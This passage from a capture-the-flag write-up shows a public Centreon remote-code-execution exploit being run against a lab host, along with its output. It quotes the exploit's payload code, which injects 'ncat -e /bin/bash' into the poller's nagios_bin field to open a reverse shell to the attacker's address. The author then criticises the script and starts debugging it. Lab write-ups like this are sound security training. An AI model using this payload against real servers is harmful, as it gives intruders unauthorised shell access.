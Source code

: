     root@kali# ./centreon-exploit.py http://10.10.10.157/centreon/ admin password1 10.10.14.30 443
    [+] Retrieving CSRF token to submit the login form
    [+] Login token is : 77dc6f59344b11c223b864e612c90cac
    [+] Logged In Sucssfully
    [+] Retrieving Poller token
    [+] Poller token is : e76df3722b39e59e312024617c21b801
    [+] Injecting Done, triggering the payload
    [+] Check you netcat listener !
    

It seemed to work fine, but I didn’t get a shell.

I opened the script back up, and took a look at the section where the payload
is sent:

    
    
        payload_info = {
            "name": "Central",
            "ns_ip_address": "127.0.0.1",
            # this value should be 1 always
            "localhost[localhost]": "1",
            "is_default[is_default]": "0",
            "remote_id": "",
            "ssh_port": "22",
            "init_script": "centengine",
            # this value contains the payload , you can change it as you want
            "nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
            "nagiostats_bin": "/usr/sbin/centenginestats",
            "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
            "centreonbroker_cfg_path": "/etc/centreon-broker",
            "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
            "centreonbroker_logs_path": "",
            "centreonconnector_path": "/usr/lib64/centreon-connector",
            "init_script_centreontrapd": "centreontrapd",
            "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
            "ns_activate[ns_activate]": "1",
            "submitC": "Save",
            "id": "1",
            "o": "c",
            "centreon_token": poller_token,
        }
    
        send_payload = request.post(poller_configuration_page, payload_info)
        print("[+] Injecting Done, triggering the payload")
    

There’s a lot to not like about the way this exploit is written. The payload
relies on the insecure `nc` with `-e` being on the target, and there’s no
error checking. I added a print statement just above the last one to print the
`send_payload.status_code`, and ran again:
